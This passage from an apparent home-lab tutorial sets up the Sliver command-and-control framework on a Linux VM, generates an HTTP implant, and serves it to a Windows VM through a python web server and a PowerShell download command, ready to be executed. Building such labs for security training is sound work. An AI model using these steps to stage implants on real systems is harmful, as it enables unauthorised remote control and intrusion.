 5. Now, from within this new SSH session, proceed with the following instructions to setup our **attacker C2 server**. First, let’s drop into a root shell to make life easier:
```
$ sudo su
```
6. Run the following commands to download **Sliver**, a **Command & Control (C2) framework by BishopFox**. I recommend copy/pasting the entire block as there is line-wrapping occurring:
```
# Download Sliver Linux server binary
$ wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
# Make it executable
$ chmod +x /usr/local/bin/sliver-server
# install mingw-w64 for additional capabilities
$ apt install -y mingw-w64
```
7. Now let’s create a **working directory** we’ll use in future steps
```
# Create and enter our working directory
$ mkdir -p /opt/sliver
```

## Step 6: Generate our C2 payload
1. Drop into a **root shell**:
```
$ sudo su
```
2. Launch **Sliver server**:
```
$ sliver-server
```
3. Generate our first **C2 session payload** (https://github.com/BishopFox/sliver/wiki/Getting-Started#session-mode) within the **Sliver shell** above. Be sure to use your **Linux VM’s IP address** we statically set in **Part 1**:
```
[server] sliver > generate --http <Linux_VM_IP> --save /opt/sliver
```
4. Confirm the new **implant configuration**:
```
[server] sliver > implants
```
5. Now we have a **C2 payload** we can drop onto our **Windows VM**. We’ll do that next. Go ahead and **exit Sliver** for now:
```
[server] sliver > exit
```
6. To easily **download the C2 payload from the Linux VM to the Windows VM**, let’s turn up a temporary **python web server**:
```
$ cd /opt/sliver
$ python3 -m http.server 80
```
7. Switch to the **Windows VM** and launch an **Administrative PowerShell console**. Now run the following command to **download your C2 payload from the Linux VM to the Windows VM**, swapping your own Linux VM IP [Linux_VM_IP] and the name of the payload we generated in Sliver [payload_name] a few steps prior:
```
PS\> IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
```
8. Now would be a good time to **Snapshot** your **Windows VM**, before we execute the malware.
    1. Snapshot name: **Malware staged**
